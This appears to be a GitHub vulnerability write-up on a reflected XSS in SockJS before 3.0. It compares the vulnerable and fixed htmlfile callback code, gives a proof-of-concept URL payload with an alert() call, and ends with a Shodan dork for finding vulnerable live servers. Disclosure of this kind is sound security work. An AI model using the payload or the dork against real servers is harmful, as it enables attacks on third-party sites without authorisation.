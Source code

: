 ## Reflected-XSS-on-SockJS

# Summary:

There is a **Reflected XSS** in SockJS on versions before of 3.0.

# Vulnerable file:

The old versions problem is that the vulnerable file, *https://github.com/sockjs/sockjs-node/blob/master/lib/transport/htmlfile.js* and its function *htmlfile* is not checking the non-alphanumeric symbols:

```
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}
```

New versions check this, fixing the XSS :
``````
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  if (/[^a-zA-Z0-9-_.]/.test(callback)) {
    return next({
      status: 500,
      message: 'invalid "callback" parameter'
    });
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}

``````
# Payload:

Payload to execute a RXSS is the next one:


https://<vulnerablehost>/<vulnerable_dir>/000/<some_UUID>/htmlfile?c=alert(%27SOCKJS%27)//
  
For example:

https://<vulnerablehost>/<vulnerable_dir>/000/0d1d5bc5-d326-4690-9e25-e08ef24a7e3a/htmlfile?c=alert(%27SOCKJS%27)//
 
 
# Fix

New versions of this library are fixed.

# Bonus: Shodan recon
If you use the following dork: **html:"Welcome to SockJS!"** you will find some vulnerable servers. Just try 
